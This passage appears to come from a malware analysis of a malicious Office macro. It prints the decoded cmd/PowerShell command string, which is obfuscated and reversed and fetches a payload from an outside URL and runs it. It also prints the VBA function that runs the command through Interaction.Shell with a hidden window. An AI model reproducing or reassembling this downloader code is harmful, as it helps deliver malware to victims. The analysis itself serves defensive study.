 ![](/assets/images/ru/OfficeMalware/6_export_arg_str.png)

As a result, this string is equal to:

`c: \ onjzioi \ izwolr \ poicwo \ .. \ .. \ .. \ windows \ system32 \ cmd.exe / c% ProgramData: ~ 0.1 %% ProgramData: ~ 9.2% / V: ON / C "set SiQ =; 'cjqhpb' = qijmnd $}} {hctac}}; kaerb; 'bchkzfb' = dqkzr $; hkjzjlz $ metI-ekovnI {) 00004 eg-htgnel.) hkjzjlz $ metI-teG ((fI; jrkjik "= ciikdj $;) ziwmvv '= pzrifoh $;' 904 '= zbwnifi $;' scjmbw '= fczcvii $;) ptth@j7OEo_7MhAbZp6jnHp/zt.oc.skeegt.liam. teN tcejbo-wen = irhwidj $; 'imsizuu' = iijirwb $ ll% 1,3- ~: PMET% h% 1,4- ~: EMANNOISSES% r% 1.5 ~: CILBUP% wop && for / L% h in ( 657, -1,0) do set nu =! Nu !! SiQ: ~% h, 1! && if% h equ 0 echo! Nu: ~ -658! | Cmd "`

The string is passed to the `ziilnp ()` function, which has the following syntax:
<pre>
Function ziilnp(zdwrhc)
On Error Resume Next
   Select Case bofcsp
      Case 600812771
         zssvqbs = CStr(rfolwz)
         infpjz = CStr(fiuwjmh)
      Case 691931294
         qhplj = cufwqqj
         lcbfq = Hex(751111903)
      Case 693375610
         swkjiw = wiiwsh
         jiuaoso = Log(311238894)
End Select
   Select Case qvkomu
      Case 676369523
         wvhzs = CStr(sffmkpj)
         zwfzq = CStr(maljh)
      Case 613766996
         tljjc = jjqcvpt
         opopw = Hex(446181185)
      Case 540556815
         qvwhtl = dtwfas
         nzjoo = Log(576824669)
End Select
ziilnp = ziilnp(Interaction.Shell(zdwrhc, vbHide))
   Select Case rmwhcfv
      Case 974865143
         wazknzq = CStr(jvdnm)
         jzvuil = CStr(ltmph)
      Case 351660802
         mffqwz = djhiwo
         onwvdm = Hex(505454459)
      Case 428217029
         wtkadzs = ihdpjs